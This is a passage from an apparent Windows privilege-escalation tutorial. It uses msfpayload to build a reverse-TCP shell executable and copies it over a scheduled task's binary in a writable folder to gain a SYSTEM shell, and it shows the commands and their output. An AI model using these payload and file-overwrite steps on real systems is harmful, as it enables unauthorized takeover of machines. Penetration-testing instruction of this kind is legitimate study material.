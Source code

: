Description:
  Connect back to attacker and spawn a command shell

root@darkside:~# msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' R | msfencode -t
exe > /root/Desktop/evil-tftp.exe

[*] x86/shikata_ga_nai succeeded with size 341 (iteration=1)


 

All that remains now is to upload our malicious executable and overwrite "E:\GrabLogs\tftp.exe". Once that is done we can get an early night sleep and wake up for our shell in the morning. An important thing to remember here is that we check the time/timezone on the box we are trying to compromise.

C:\Users\user1\Desktop> dir

 Volume in drive C has no label.
 Volume Serial Number is 948D-A98F

 Directory of C:\Users\user1\Desktop

02/19/2014  01:36 AM    <DIR>          .
02/19/2014  01:36 AM    <DIR>          ..
04/22/2013  09:39 AM           331,888 accesschk.exe
02/19/2014  01:31 AM            73,802 evil-tftp.exe
01/25/2014  12:46 AM            36,864 fubar.exe
01/22/2014  08:17 AM    <DIR>          incognito2
06/30/2011  01:52 PM         1,667,584 ncat.exe
02/18/2014  12:38 PM            14,336 wlbsctrl.dll
11/22/2013  07:39 PM             1,225 wmic_info.bat
               6 File(s)      2,125,699 bytes
               3 Dir(s)      75,341,824 bytes free
		
C:\Users\user1\Desktop> copy evil-tftp.exe E:\GrabLogs\tftp.exe

Overwrite E:\GrabLogs\tftp.exe? (Yes/No/All): Yes
        1 file(s) copied.


 

To demonstrate this privilege escalation in action I fast-forwarded the system time. From the screenshot below you we can see that we are presented with our SYSTEM shell promptly at 9AM.

 

Schtasks Shell (LogGrabberTFTP)

 

 

 

 

 

 

 

 

These two examples should give you an idea about the kind of vulnerabilities we need to look for when considering file/folder permissions. You will need to take time to examine ALL the binpaths for the windows services, scheduled tasks and startup tasks.
